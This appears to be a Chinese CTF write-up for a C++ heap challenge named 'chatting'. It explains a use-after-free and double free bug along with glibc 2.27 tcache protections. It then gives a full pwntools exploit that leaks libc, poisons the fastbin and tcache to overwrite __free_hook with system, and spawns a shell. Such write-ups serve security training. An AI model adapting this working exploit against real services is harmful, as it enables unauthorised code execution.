

# chatting

> 一道 C++ 的菜单题，很贴心地在删除时输出了「Delete」。
>
> 对于这种题目（C++ || Rust），可以减少花在逆向上的时间，编写脚本对程序进行模糊测试和调试来找到漏洞并加以利用。

## Vulnerabilities

通过手工测试就能注意到：

1. 程序中 message 是和目标用户绑定存储的；
2. 当目标用户被删除或新增同名用户后，绑定的对象也会被删除；
3. 一个用户被删除后，仍然能向它发送 message，并且此后再对该用户进行删除则会报 `tcache double free`：



这里的 `tcache double free` 是 glibc 在 `2.27-3ubuntu1.3` 之后增加的保护（[参考链接](https://www.anquanke.com/post/id/219292)）：

当 free 掉一个堆块进入 tcache 时，假如堆块的 bk 位存放的 `key == tcache_key`，就会遍历这个大小的 Tcache ，假如发现同地址的堆块，则触发 Double Free 报错，因此要考虑 tcache 结合 fastbin 或 unsorted bin 的利用方式。

这里我一开始想到的是 [house of botcake](https://forum.butian.net/share/1709)，但是题目 double free 的触发条件有限，感觉利用起来困难重重。

于是考虑 fastbin doublefree：在申请堆块时若 tcache 链上没有堆块而 fastbin 上有该大小的堆块，先从 fastbin 头部拿出上次放入的堆块，再重新用剩下的 fastbin 堆块填充 tcache 链。

---

## Exploitation

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("./libc-2.27.so")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

ru(b"Enter new username: ")
sl(b"0")


def cmd(choice):
    ru(b": ")
    sl(choice)


def add_user(name):
    cmd(b"add")
    ru(b"Enter new username: ")
    sl(name)


def delet(name):
    cmd(b"delete")
    ru(b"Enter username to delete: ")
    sl(name)


def read():
    cmd(b"read")


def listuser():
    cmd(b"listuser")


def message(user, size, data):
    cmd(b"message")
    ru(b"To: ")
    sl(user)
    ru(b"Message size: ")
    sl(i2b(size))
    ru(b"Content: ")
    s(data)


def switch_user(name):
    cmd(b"switch")
    ru(b"Enter username to switch to: ")
    sl(name)


def leak_libc():
    delet(b"0")
    message(b"0", 0x30, b"a")
    add_user(b"0")
    message(b"0", 0x30, b"a")
    read()
    ru(b"0 -> 0: ")
    return u64_ex(ru(b"\nDone", drop=True))


libc_base = leak_libc() - 0x3EC361
lg("libc_base", libc_base)

add_user(b"1")
add_user(b"2")
add_user(b"3")
add_user(b"4")
add_user(b"5")
switch_user(b"1")

for i in range(7):
    message(b"1", 0x40, i2b(i) * 0x30)

switch_user(b"2")

for i in range(7):
    message(b"2", 0x40, i2b(i) * 0x30)

delet(b"1")
delet(b"2")

switch_user(b"4")
for i in range(7 - 2):
    message(b"4", 0x40, i2b(i) * 0x30)

# 利用 user 3 触发 double Free
# 关键在于保持 tcache 链为满的同时在 fastbin 上进行 doublefree 的利用
switch_user(b"3")
delet(b"3")
message(b"3", 0x40, b"a" * 0x20)
message(b"3", 0x40, b"b" * 0x20)
message(b"3", 0x40, b"c" * 0x20)
message(b"3", 0x100, b"a" * 0x20)

for i in range(8):
    message(b"4", 0x40, i2b(i) * 0x30)

message(b"5", 0x40, p64(libc_base + libc.sym.__free_hook))
message(b"5", 0x40, b"/bin/sh\x00")
message(b"5", 0x40, b"/bin/sh\x00")
message(b"5", 0x40, p64(libc_base + libc.sym.system))
delet(b"5")

ia()
```
